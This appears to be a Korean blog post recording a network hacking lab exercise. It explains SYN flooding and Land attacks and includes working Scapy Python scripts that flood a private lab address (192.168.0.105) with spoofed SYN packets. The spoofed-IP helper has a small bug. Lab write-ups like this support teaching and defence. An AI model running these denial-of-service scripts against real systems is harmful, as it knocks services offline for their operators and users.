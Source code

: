 ```yaml
---
layout: post
title: "Network hacking 실습"
date: 2020-05-04
excerpt: "LandAttack,SynFlooding"
tags: [LandAttack,SynFlooding,Network, hacking]
comments: true
---
```


## SynFlooding

SynFlooding은 Tcp에서 다른 ip와 통신하기전에 신뢰성을 유지하기위해 
3-way handShcking을 실시한다.
1, Client는 Server에게 통신을 요청하여 SYN패킷을 전송한다
2, Server는 Client에게 받은 SYN패킷을 확인하고 SYN패킷과 ACK패킷을 Client에게 전송한다
3, Client는 Server에게 SYN,Ack 패킷을 받고 다시 Server에게 ACK패킷을 전송하며 연결

이 과정에서 Client가 Server에서 SYN+ACK 패킷을 받으며 Server는 대기상태로 Client의 ACk패킷을 기다린다
이 부분의 취약점을 이용하여 공격자가 의도적으로 Server에게 ACK패킷을 전송하지 않음으로써 무한 대기상태로
만든다. 이 과정을 수없이 반복하게 되면 대량의 대기 상태 Client가 생기게 되고 Server에 부하가 가게된다.


{% capture images %}
https://user-images.githubusercontent.com/49140815/140679451-24374458-a397-4c68-bbc0-5e84a39ad7b4.PNG
{% endcapture %}
{% include gallery images=images caption="80포트 오픈확인" cols=1 %}

{% highlight python %}
{
    from scapy.all import*
from random import shuffle

def getRandomIP():
    ipRange = [x for x in range(256)]
    ip = []

    for i in range(4):
        shuffle(ipRange)
        ip.append(str(ipRange[0]))
        randomip='.'.join(ip)
        return randomip

def synAttack(targetIP):
    sourceIP = getRandomIP()
    packet_IP = IP(src = sourceIP, dst = targetIP)
    packet_TCP = TCP(sport=range(1,60000),dport=80,flags='S')
    packet = packet_IP/packet_TCP
    srflood(packet)

def main():
    targetip='192.168.0.105'
    synAttack(targetip)

if __name__=='__main__':
    main()

}
{% endhighlight %}


## LandAttack

LandAttack은 공격자가 임의의 사용자의 ip로 위장하여 출발지, 도착지 ip를 동일하게 설정함으로써
무한히 패킷을 반복시켜 서버의 부하를 유발시키는 공격이다. 
{% highlight python %}
{
    from scapy.all import*

def landAttack(targetIP):
    packet_IP = IP(src = targetIP, dst = targetIP)
    packet_TCP = TCP(sport= range(1,65535),dport=range(1,65535),flags='S')
    packet=packet_IP/packet_TCP
    srflood(packet)

def main():
    targetip = '192.168.0.105'
    landAttack(targetip)

if __name__=='__main__':
    main()

}
{% endhighlight %}

{% capture images %}
https://user-images.githubusercontent.com/49140815/140681266-968de59e-3418-4e00-9cd6-1eb64ca27812.PNG
{% endcapture %}
{% include gallery images=images caption="landattack 결과" cols=1 %}